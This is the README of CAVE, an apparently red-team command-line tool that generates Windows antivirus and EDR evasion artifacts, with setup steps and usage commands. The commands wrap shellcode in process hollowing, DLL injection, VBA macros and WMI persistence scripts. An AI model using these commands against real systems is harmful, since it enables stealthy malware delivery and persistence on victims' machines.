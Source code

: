 <h1 align="center">
  <img src="https://github.com/CYFARE/CAVE/blob/main/assets/CAVE.png" alt="CAVE Logo">
</h1>

## <h2 align="center">
  <img src="https://img.shields.io/badge/-GPLv2.0-61DAFB?style=for-the-badge" alt="License: GPLv2.0">&nbsp;
</h2>

**CAVE**, is a modular command-line tool designed to generate various Windows AV/EDR evasion artifacts.

## Releases & Features

### Release Cycle

This is a rolling release tool, which means that new features and techniques will be added continuously. Always make sure your local copy is up-to-date by pulling the latest changes.

### Features

*   **Modular Design**: Easily add new evasion techniques by creating new modules in the `core` directory.
*   **Variety of Techniques**: Includes implementations for common evasion strategies such as:
    *   APC Injection
    *   API Unhooking
    *   Direct Syscalls
    *   DLL Injection
    *   Process Hollowing
    *   VBA Macro Generation
    *   WMI Persistence Setup/Removal
*   **Payload Agnostic**: Works with any raw shellcode provided in a binary file (`-p`/`--payload`).
*   **Cross-Compilation**: Generates Windows executables and DLLs using the MinGW-w64 cross-compiler.
*   **Shellcode Obfuscation**: Includes basic shellcode obfuscation (e.g., XOR, Base64) before embedding in the generated artifact.
*   **Configurable Options**: Each technique exposes specific command-line options to customize its behavior (e.g., target process, output filenames, WMI parameters).
*   **Configurable Output**: Specify a custom output directory for generated files (`config.py`, defaults to `output/`).

## Setup & Usage

### Setup

1.  **Clone the repository**:
    ```bash
    git clone https://github.com/CYFARE/CAVE.git
    cd CAVE
    ```

2.  **Set up a Python virtual environment**:
    ```bash
    pyenv install 3.10.11
    pyenv local 3.10.11
    python3 -m venv venv
    ```

3.  **Activate the virtual environment**:
    *   On Linux:
        ```bash
        source venv/bin/activate
        ```

4.  **Install Python dependencies**:
    ```bash
    python -m pip install --upgrade pip
    python -m pip install -r requirements.txt
    ```

5.  **Install MinGW-w64 Cross-Compiler**: CAVE uses `x86_64-w64-mingw32-gcc` and `x86_64-w64-mingw32-g++` for compiling Windows artifacts. You can try running the setup script (for Debian/Ubuntu, Fedora, or Arch Linux):
    ```bash
    chmod +x setup.sh
    ./setup.sh
    ```
    If the script fails or you are on a different OS, you will need to install `mingw-w64` manually via your package manager or download it.

### Usage

Run the main script (`main.py`) from within your activated virtual environment.

#### List available techniques

```bash
python3 main.py list
```

#### Get help for a specific technique

```bash
python3 main.py <technique-name> --help
```
Replace `<technique-name>` with the name of the technique (e.g., `process-hollowing`, `dll-injection`).

#### Generate an artifact

Use the technique name as a subcommand, followed by its required and optional arguments.

*   **Example: Generate a Process Hollowing executable**
    ```bash
    python3 main.py process-hollowing --payload payloads/beacon.bin --output ph_artifact.exe --process C:\\Windows\\System32\\notepad.exe
    ```

*   **Example: Generate DLL Injection artifacts (DLL and Loader EXE)**
    ```bash
    python3 main.py dll-injection --payload payloads/beacon.bin --output-dll injected_payload.dll --output-exe dll_loader.exe --process-name notepad.exe
    ```

*   **Example: Generate a VBA Macro**
    ```bash
    python3 main.py vba-macro --payload payloads/beacon.bin --output office_macro.vba
    ```

*   **Example: Generate a WMI Persistence Setup script**
    ```bash
    python3 main.py wmi-persistence --action setup --payload payloads/beacon.bin --output wmi_setup.vbs --filter-name MyWMIFilter --consumer-name MyWMIConsumer --payload-script-name dropped_payload.vbs --payload-drop-dir C:\\Users\\Public\\Libraries
    ```

*   **Example: Generate a WMI Persistence Removal script**
    ```bash
    python3 main.py wmi-persistence --action remove --output wmi_remove.vbs --filter-name MyWMIFilter --consumer-name MyWMIConsumer --payload-script-name dropped_payload.vbs --payload-drop-dir C:\\Users\\Public\\Libraries
    ```

Place your raw shellcode file (e.g., generated by `msfvenom`) in the `payloads/` directory or specify its full path. See `payloads/README.md` for more details on payload generation.

## Support

If you encounter issues or have suggestions, please refer to the project's repository page for issue tracking. You can support the work by becoming a sponsor or through: https://cyfare.net/apps/Social/

## License

GPLv2.0
